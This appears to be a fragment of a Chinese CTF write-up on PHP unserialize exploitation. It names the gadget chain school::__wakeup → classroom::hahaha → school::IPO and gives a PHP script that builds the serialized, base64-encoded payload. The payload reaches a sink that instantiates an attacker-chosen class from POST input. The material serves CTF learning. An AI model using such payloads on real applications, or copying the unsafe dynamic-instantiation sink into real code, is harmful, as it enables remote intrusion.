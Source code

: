 ```plain
}
?>
```

链子还是比较清晰的

```plain
school::__wakeup()->classroom::hahaha()->school::IPO()
```

```plain
<?php
class teacher{
    public $name;
    public $rank;
    private $salary;
    public function __construct($name,$rank,$salary = 10000){
        $this->name = $name;
        $this->rank = $rank;
        $this->salary = $salary;
    }
}

class classroom{
    public $name;
    public $leader;
    public function __construct($name,$leader){
        $this->name = $name;
        $this->leader = $leader;
    }
    public function hahaha(){
        if($this->name != 'one class' or $this->leader->name != 'ing' or $this->leader->rank !='department'){
            return False;
        }
        else{
            return True;
        }
    }
}

class school{
    public $department;
    public $headmaster;
    public function __construct($department,$ceo){
        $this->department = $department;
        $this->headmaster = $ceo;
    }
    public function IPO(){
        if($this->headmaster == 'ong'){
            echo "Pretty Good ! Ctfer!\n";
            echo new $_POST['a']($_POST['b']);
        }
    }
    public function __wakeup(){
        if($this->department->hahaha()) {
            $this->IPO();
        }
    }
}
$a=new teacher('ing','department');
$b=new classroom('one class',$a);
$c=new school($b,'ong');
echo base64_encode(serialize($c));
```
